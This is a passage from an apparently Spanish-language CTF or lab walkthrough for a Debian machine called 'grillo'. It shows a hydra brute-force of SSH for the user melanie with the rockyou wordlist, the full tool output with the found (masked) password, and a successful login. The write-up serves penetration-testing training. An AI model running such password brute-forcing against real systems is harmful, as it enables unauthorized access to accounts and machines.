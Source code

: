 Esto ya es una pista clara de lo que tenemos que hacer, pues si decides hacer **Fuzzing** no encontrarás nada.

Así que, vamos a aplicar fuerza bruta al **servicio SSH**.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="SSHFB">Aplicando Fuerza Bruta al Servicio SSH</h2>

Usaremos la herramienta **hydra** y utilizaremos el usuario que fue mencionado en la página web llamado **melanie**:
```bash
hydra -l melanie -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-11 13:43:27
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.1.100:22/
[STATUS] 270.00 tries/min, 270 tries in 00:01h, 14344132 to do in 885:27h, 13 active
[STATUS] 219.00 tries/min, 657 tries in 00:03h, 14343746 to do in 1091:37h, 12 active
[22][ssh] host: 192.168.1.100   login: melanie   password: *****
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-11 13:48:27
```
Excelente, encontramos la contraseña.

Comprobemos sí funciona:
```bash
ssh melanie@192.168.1.100
melanie@192.168.1.100's password: 
Linux grillo 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Apr 12 20:38:54 2024
melanie@grillo:~$ whoami
melanie
```
Bien, ya estamos dentro.
